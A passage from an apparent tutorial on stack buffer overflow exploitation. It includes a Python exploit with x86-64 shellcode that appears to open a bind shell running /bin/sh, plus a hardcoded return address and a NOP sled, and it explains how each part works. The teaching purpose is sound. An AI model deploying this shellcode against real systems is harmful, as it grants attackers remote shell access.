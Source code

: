 ```
  7b:   50                      push   %rax
  7c:   57                      push   %rdi
  7d:   48 89 e6                mov    %rsp,%rsi
  80:   b0 3b                   mov    $0x3b,%al
  82:   0f 05                   syscall
```

All of those hex numbers after the colons (`:`) and before the asm instructions are what we are after.

After collecting all of those op-codes, we can now construct our exploit. I'm a python fan so here is my python exploit implementation:

```python
exploit = ''.join([
    '\x31\xc0\xb0\x01\x89\xc6\xfe\xc0\x89\xc7\x48\x31\xd2\xb0\x29\x0f\x05\x93',
    '\x48\x31\xc0\x50\x68\x02\x01\x11\x5c\x88\x44\x24\x01\x48\x89\xe6\xb2\x10',
    '\x89\xdf\xb0\x31\x0f\x05\xb0\x05\x89\xc6\x89\xdf\xb0\x32\x0f\x05\x31\xd2',
    '\x31\xf6\x89\xdf\xb0\x2b\x0f\x05\x89\xc5\xb0\x39\x0f\x05\x09\xc0\x75\xec',
    '\x89\xef\x48\x31\xc0\x89\xc6\xb0\x21\x0f\x05\xfe\xc0\x89\xc6\xb0\x21\x0f',
    '\x05\xfe\xc0\x89\xc6\xb0\x21\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69',
    '\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48',
    '\x89\xe6\xb0\x3b\x0f\x05',
])

attack_addr = '\xaa\x4f\x81\xf7\xff\x7f\x00\x00'

print '\x90' * 64 + attack_addr * 10 + ('\x90' * 50) + exploit
```

So what's going on in there?

The `exploit` variable is simple. It's just the opcodes in a string (`\xNN` will embed the literal hex value NN into the string).

There is a seemingly magic value called `attack_addr`. This is the address that I want to overwrite the return address with. I'll come back to this in a second.

Finally, we are printing `'\x90'` 64 times, followed by ten copies of `attack_addr` followed by a bunch of `'\x90'` again--this time 50 times, and then the `exploit` string.

***Why??!***

Ok, here's what happening. First, we are filling the `line` buffer. It's 64 bytes long, remember? We could have written 64 bytes of anything at all.

If we keep writing, we will eventually overwrite the return address. Exactly how much space is there between the end of the buffer and the return address? Unfortunately this depends on the compiler and the language. The good news is that it doesn't matter! We know that the `line` variable will by `word` aligned. So will the return address. Since 64 is a multiple of 8 (the word-size in this case), we can just repeat the `attack_addr` a few times. It's guaranteed to overwrite the return address correctly.

Next we fill in a bunch of `'\x90'` bytes. That the op-code for `nop`. We are constructing what's called a 'sled'. The idea is that the instruction pointer can land anywhere in the `nop` sled and it will harmlessly execute the `nop` instruction over and over until it reaches our exploit code.
